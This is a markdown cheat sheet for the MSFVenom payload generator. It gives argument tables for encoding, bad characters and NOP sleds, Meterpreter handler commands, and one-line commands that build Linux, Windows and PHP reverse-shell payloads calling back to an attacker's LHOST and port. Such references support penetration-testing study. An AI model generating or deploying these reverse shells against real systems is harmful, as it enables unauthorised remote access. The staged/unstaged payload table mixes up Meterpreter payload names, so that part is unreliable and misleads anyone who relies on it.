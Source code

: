# MSFVenom

## Payload Generation

> ### Arguments
>
> |       Argument       |     Usage      |            Options            |
> | :------------------: | :------------: | :---------------------------: |
> |     List Modules     |       -l       |          moduletype           |
> | List Payload Options | --list-options |                               |
> |       Payload        |       -p       |            payload            |
> |       Host IP        |     LHOST=     |              IP               |
> |   Host Listen Port   |     LPORT=     |             port              |
> |        Format        |       -f       |            format             |
> |    Output to File    |       -o       |           filename            |
> |        Encode        |       -e       |        shikata_ga_nai         |
> |  Encoder Iterations  |       -i       |         iterationsnum         |
> |    Exit Function     |   EXITFUNC=    |   thread (buffer overflow)    |
> |    Bad Characters    |       -b       |  charlist (buffer overflow)   |
> |       NOPsled        |       -n       |  noplength (buffer overflow)  |
> |  Max Payload Space   |       -s       | payloadsize (buffer overflow) |
>
> ### List Options/Common Options
>
> | Argument |                                                               List Options/Common Options                                                                |
> | :------: | :------------------------------------------------------------------------------------------------------------------------------------------------------: |
> | Modules  |                                               payloads, encoders, nops, platforms, archs, encrypt, formats                                               |
> | Payloads | linux/\<arch\>/\<payload\>, windows/\<arch\>/\<payload\> - [full list](https://medium.com/@hannahsuarez/full-list-of-546-msfvenom-payloads-39adb4d793c9) |
> | Formats  |                                              raw (default), exe, msi, elf, war : run `-l formats' for more                                               |
>
> ### Meterpreter
>
> |  Staged Payload (requires special listener)   |   Unstaged Payload    |
> | :-------------------------------------------: | :-------------------: |
> | linux/x64/meterpreter_reverse_tcp/reverse_tcp | linux/x64/reverse_tcp |
>
> |   Meterpreter   |          Command          |
> | :-------------: | :-----------------------: |
> |   Use handler   | use exploit/multi/handler |
> |   Set Payload   |  set PAYLOAD \<payload\>  |
> | Set Remote Host |    Set RHOST \<rhost\>    |
> | Set Listen Host |    set LHOST \<lhost\>    |
> | Set Listen Port |    set LPORT \<lport\>    |
>
> ### Usage Examples
>
> - Linux Reverse Shell: `msfvenom -p linux/x64/shell_reverse_tcp LHOST=<Lhost\> LPORT=<lport\> -f elf -o shell.elf`
> - Windows Reverse Shell: `msfvenom -p windows/shell_reverse_tcp LHOST=<Lhost\> LPORT=<lport\> -f exe -o shell.exe`
> - PHP Reverse Shell: `msfvenom -p php/reverse_php LHOST=<Lhost\> LPORT=<lport\> -o shell.php`

> ### GUI
>
> - [Setup](https://www.offensive-security.com/metasploit-unleashed/msf-community-edition/)

## Cheatsheets

> - [HackTricks.xyz](https://book.hacktricks.xyz/shells/shells)
> - [rapid7/metasploit-framework](https://github.com/rapid7/metasploit-framework/wiki/How-to-use-msfvenom)
> - [SANS](https://www.sans.org/security-resources/sec560/misc_tools_sheet_v1.pdf)
> - [frizb/MSF-Venom-Cheatsheet](https://github.com/frizb/MSF-Venom-Cheatsheet)
> - [Redteamtutorials.com](https://redteamtutorials.com/2018/10/24/msfvenom-cheatsheet/)
> - [Netsec.ws](https://netsec.ws/?p=331)
> - [Infinitelogins.com](https://infinitelogins.com/2020/01/25/msfvenom-reverse-shell-payload-cheatsheet/)
> - [Thedarksource.com](https://thedarksource.com/msfvenom-cheat-sheet-create-metasploit-payloads/)
